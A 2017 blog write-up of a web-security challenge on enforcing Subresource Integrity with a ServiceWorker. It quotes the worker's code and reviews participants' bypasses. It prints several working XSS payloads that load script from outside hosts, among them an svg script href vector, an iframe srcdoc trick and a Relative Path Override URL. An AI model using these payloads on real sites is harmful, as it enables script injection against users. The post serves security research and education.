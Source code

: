 Title: Challenge Write-up: Subresource Integrity in Service Workers
Date: 2017-03-25
Author: Frederik
Slug: sw-sri-challenge

# Challenge Write-up: Subresource Integrity in Service Workers

For those who have not participated in my [challenge](https://serviceworker.on.web.security.plumbing/), this document is about implementing security features in ServiceWorkers. A
ServiceWorker (SW) is a type of [Web Worker](https://duckduckgo.com/?q=web+worker&t=ffab&ia=web) that can intercept and modify HTTP requests. A ServiceWorker is allowed to see requests towards your own as well as other origins – though it [must not](https://frederik-braun.com/publications/thesis/Thesis-Origin_Policy_Enforcement_in_Modern_Browsers.pdf) be able to see the response from cross-origin resources.

The idea of the [challenge](https://serviceworker.on.web.security.plumbing/) was to write a tiny ServiceWorker that would intercept all HTTP requests and cancel everything except those blessed by a white-list. On top of that, external resources (e.g., scripts) must only be loaded with [Subresource Integrity](https://www.w3.org/TR/SRI/) (SRI). This can be easily achieved, because `fetch()` supports SRI out of the box:
If you supply the `integrity` keyword in the options parameter to `fetch`, it will automatically fail unless the hashes match:

Here's the relevant code snippet with some extra comments
```js
self.addEventListener("fetch", function(event) {
  let request = event.request;
  if (request.method === "GET") {
    // check if URL in pre-defined whitelist at the top of the document:
    if (request.url in INTEGRITY_METADATA) { 
      // if HTML does not contain integrity=, use from the whitelist
      let sriHash = request.integrity || INTEGRITY_METADATA[request.url];
      let fetchOptions = {
        integrity: sriHash,
        method: request.method,
        mode: "cors", // if we have integrity metadata, it should also use cors
        credentials: "omit", // ...and omit credentials
        cache: "default",
      };
      // ServiceWorker lets the document proceed fetching the resource, but with modified fetch options
      event.respondWith(fetch(request, fetchOptions));
```

The goal of the challenge was to make the document execute your script - essentially bypassing the ServiceWorker. To facilitate such an attack, I implemented a simple reflected Cross-Site-Scripting (XSS) vulnerability and hinted to its existence in the rules. XSS in general allows executing all kinds of scripts. Inline as well as from a specified URL. Because we wanted the script to go through the ServiceWorker, we have also hardened the challenge with a Content Security Policy (CSP). Content Security Policy is a mechanism to restrict how scripts can be run from a website. The policy that I used disallowed all kinds of inline scripts in tags or event handlers (e.g., `<script>...</script>` or `onerror=`).
This essentially required an attacker to request a script that is living on their own domain, thus forcing them through the ServiceWorker.

Unless, of course, the attacker was able to find a browser bug involving an arcane constellation of markup that does *not* trigger the Fetch Event declared in the ServiceWorker.

### PEBKAC

As it turns out, most browsers bypass the ServiceWorker when reloading a page with CTRL+SHIFT+R. Not only did this cause some invalid submissions, it also took me until the day I am trying to summarize my finding to notice that I have incorrectly approved some attacks when they do not actually work. This affects the following submissions:
[Mario Heiderich](https://twitter.com/0x6D6172696F)'s vector is `<svg><script/href=//14.rs></script>` (which is even shorter on Firefox, because you can leave the closing `</script>` tag out).

*But it does not work* unless you hard-refresh. But with a hard-refresh, even `<script/href=//14.rs></script>` works, because, well, hard-refreshes bypass the ServiceWorker.

The same goes for [Artur Janc](https://twitter.com/arturjanc/)'s submission. His approach looks like this `<base href="//14.rs"><script src=/></script>`, using Mario's short domain name. It also falls flat when the ServiceWorker is correctly installed.

I'm sincerely sorry, but I have to gently wipe you off the leader board. I admit I should have done a better job at testing.
I'm very sure you would have found a valid solution, if I had judged the challenge more properly.

### Bypassing the Service Worker

Now, let's head on to the first submission.
First blood was drawn by [Manuel Caballero](https://twitter.com/magicmac2000/), who figured out that a script loaded in an `<iframe srcdoc=..>` is not going through the ServiceWorker. This is somewhat weird, given that a script running `navigator.serviceWorker.getRegistrations()` in this iframe returns the active ServiceWorker at sri-worker.js.

[Masato Kinugawa](https://twitter.com/kinugawamasato) promptly followed suite with the same attack vector. He also noted that a simple `<script src=evil.com></script>`-style vector also works in Private Browsing mode. This stems from the fact that the XSS vulnerability usually wins a race with the ServiceWorker registration. Note that the ServiceWorker must be registered from a separate JS file, since inline scripts are disallowed by CSP. This registration happens asynchronously and has to be faster then another script tag that is controlled by the attacker. It's certainly noteworthy, but I did not count this as a valid submission: In a real life scenario, an attacker is only really successful if the victim has a session associated with the web page and has also visited the web page before. In this case, the ServiceWorker is already registered and the bootstrapping is a no-op.
I admit that this is a clear gap in my rules, so kudos to [Masato Kinugawa](https://twitter.com/kinugawamasato) (and some other folks who found this issue later on)!

[Alex Inführ](https://twitter.com/insertScript/) sent a solution that also used iframe srcdoc, but added the sandbox attribute, which cost him a few more characters.

In a similar vain, [Eduardo Vela](https://twitter.com/sirdarckcat/) sent me to [https://0v.lv/?e](https://0v.lv/?e), which contains an iframe sandbox, that links to a conventional XSS on the domain. The trick here, is that navigations from an iframe sandbox pointing to a website with a Service Worker will skip trigger the ServiceWorker. This is a nice find, but wasn't considered a valid solution as it required user interaction.

### Implementation flaws and assumptions

Having looked at those submissions that the ServiceWorker does not see, let's take another look at the rest of its source code. Some submissions also found implementation bugs. Here's the code right after the white-list check. Again, I'll add some extra comments.

```js
let LOCALFILES = {};
LOCALFILES["/style.css"] = "sha384-q2bP418TFL/LOAo5XrjD7OciiOi63q6OKnDH67oOGNkWc/rvUaWpynoatxySxEPF";
LOCALFILES["/sri-sha.js"] = "sha384-TKCoLrAkiPTzJzLNLqSmFqC0XA9PCMUwSYg2E/FosZEy7h26mwR9wONvTZ9Zvtj9";
LOCALFILES["/initialize-sw.js"] = "sha384-32IhktVnY10EwfUKtlhYBUoBysS2QM8cmW1bW2HENM3nIEmGDNwpkqdmpaE2jF7Z";#
LOCALFILES["/sri-worker.js"] = "sha384-rRSq8lAgvvL9Tj617AxQJyzf1mB0sO0DfJoRJUMhqsBymYU3S+6qW4ClBNBIvhhk"
let parsed = new URL(request.url);
// other free pass: same-origin
if (parsed.origin === ownLocation.origin) {
  // we allow ourselves (the forward-slash) and paths required for the website to work. some stylesheets etc.
  if ((parsed.pathname === '/') || (parsed.pathname in LOCALFILES)) {
    // note that these requests do not require integrity. the integrity metadata in the object was left out here. 
    // this is mostly a decoy "bug", which I was hoping would confuse people.
    console.log("Fetching same-origin thingy", request.url)
    event.respondWith(fetch(request));
  } else {
    console.log(`[${LOGNAME}] Can not fetch ${request.url}. No integrity metadata.`);
    event.respondWith(Response.error());
  }
} else {
  // cross-origin: blocked.
  console.log(`[${LOGNAME}] Can not fetch ${request.url}. No integrity metadata.`);
 event.respondWith(Response.error());
}
```

To briefly summarize, we first perform a same-origin check and then allow files in the same origin that are contained in the `LOCALFILES` object or the file `/`. Even though the object contains hashes, these are never added to the request and thus never checked. I did not think of this case as a vulnerability and mostly left this inconsistency as a decoy.
For every other type of request the code responds with a network error, i.e.,`Response.error()`.

### Thinking outside the box

This fine submission reached me when I was leaving the subway on my way home and I *really* did not understand what was going on:

[https://serviceworker.on.web.security.plumbing/index.php/?name=<script/src=//0v.lv></script>](https://serviceworker.on.web.security.plumbing/index.php/?name=<script/src=//0v.lv></script>)

The really important thing to note here is that the request URL contains `/index.php/?name=`.
This trick is called [Relative Path Override (or RPO)](http://www.thespanner.co.uk/2014/03/21/rpo/). A technique first described and coined by [Gareth Heyes](https://twitter.com/garethheyes). RPO attacks the fact that the script is loading resources from a relative path `initialize-sw.js`. The attacker providing a different request path, can thus mess up the additional resource loading. The website will attempt to load the necessary files from `/index.php/initialize-sw.js` instead and therefore fails.

This is of course extra nasty, when those scripts behind relative paths are implementing security features.
A truly nice find, by [Eduardo Vela](https://twitter.com/sirdarckcat/)!


### Conclusions & Acknowledgments

It's interesting to use fresh technologies like ServiceWorkers, Subresource Integrity and Content Security Policy (heh) in combination and see what happens. Building your own security solutions on top of the web platform is a very complex undertaking and makes you realize that those features were created ad-hoc in a very unsystematic way. As a result of that, I'd advise you not to implement hard guarantees about regulating `fetch()` calls using Service Workers.

But it's always great fun to think of something interesting and then have yourself proven wrong in the real world. Thanks to [Anne van Kersteren](https://twitter.com/annevk/) for making me look into an implementation of Subresource Integrity (and `require-sri-for`) with Service Workers. And of course, thanks to all the participants that tried (and succeeded) to break the implementation in various ways.

If you want mandatory Subresource Integrity, I recommend you look into the SRI2 working draft. The `require-sri-for` CSP extension has been implemented in Firefox and Chrome, but in both cases it's behind a flag (`security.csp.experimentalEnabled` and *experimental Web Platform features* respectively)
